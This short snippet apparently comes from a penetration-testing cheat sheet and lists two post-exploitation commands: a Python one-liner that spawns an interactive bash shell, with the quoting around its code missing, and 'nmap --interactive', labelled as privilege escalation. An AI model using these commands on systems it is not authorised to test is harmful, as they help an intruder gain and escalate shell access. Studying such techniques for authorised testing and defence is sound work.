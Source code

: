 Spawn interactive shell: 
```vim
python -c import pty;pty.spawn("/bin/bash")
```

Privilege escalation with nmap :  
```vim
nmap --interactive
```